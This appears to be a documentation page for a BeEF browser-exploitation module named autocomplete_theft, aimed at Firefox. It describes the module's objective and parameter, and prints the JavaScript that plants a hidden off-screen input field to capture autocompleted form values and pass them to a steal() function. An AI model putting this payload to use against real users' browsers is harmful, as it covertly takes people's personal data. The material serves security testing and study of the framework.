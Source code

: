 ## Summary

* **Objective**: steal autocomplete values from Firefox
* **Authors**: Stefano Di Paola, bcoles
* **Browsers**: Firefox
* **Paramters** :
  * **Input Field Name** : name of input field to steal values from

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/autocomplete_theft)

## Internal Working

This module will steal form field data when the user tries to autocomplete the chosen input field with arrow keys.

```js
input = document.createElement('input');
input.setAttribute("id",    "placeholder");
input.setAttribute("name",  "<%= @input_name %>");
input.setAttribute("style", "position:relative;top:-1000px;left:-1111px;width:1px;height:1px;border:none;");
input.setAttribute("type",  "text");
input.onkeyup   = function(event) { tt(event); }
input.onkeydown = function(event) { tt(event); }
input.onblur    = function(event) { steal(this.name,this.value);var o=this;setTimeout(function(){ o.focus();},100);this.value = "";document.body.removeChild(this); }
document.body.appendChild(input);
```


## Feedback

